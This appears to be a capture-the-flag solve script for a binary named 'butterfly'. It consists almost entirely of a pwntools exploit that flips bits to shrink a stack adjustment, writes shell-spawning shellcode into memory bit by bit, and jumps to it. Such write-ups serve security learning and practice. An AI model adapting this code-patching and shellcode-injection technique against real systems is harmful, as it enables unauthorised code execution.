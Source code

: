 This solve script works locally on my own compiled program.

In order to get it to work on remote, you will need to brute force to find:

1. `RET` gadget
2. address of `add RSP, 0x128` instruction

```py
from pwn import *

context.binary = elf = ELF("./butterfly")
p = process("./butterfly")

# bitflip `add rsp, 0x128` -> `add rsp, 0x28`
payload = str((0x401240 << 3)+0x8).encode()
payload += b"\x00"*32
payload += p64(0x40124a)
payload += p64(elf.sym.main)
p.sendline(payload)


# craft our shellcode at 0x401e00
sc = asm(shellcraft.sh())
for i in range(len(sc)*8):
    if (sc[i//8] >> (i % 8)) & 0x1 == 0x1:
        payload2 = str(((0x401e00 + i//8) << 3)+((i % 8))).encode()
        payload2 += b"\x00"*32
        payload2 += p64(0x40124a)
        payload2 += p64(elf.sym.main)


        p.sendline(payload2)

# the bit flip here is irrelevant, we just want to
# execute our shellcode!
payload2 = str((0x401ff0 << 3)+((i % 8))).encode()
payload2 += b"\x00"*32
payload2 += p64(0x401e00)

p.sendline(payload2)

gdb.attach(p)

p.interactive()
```

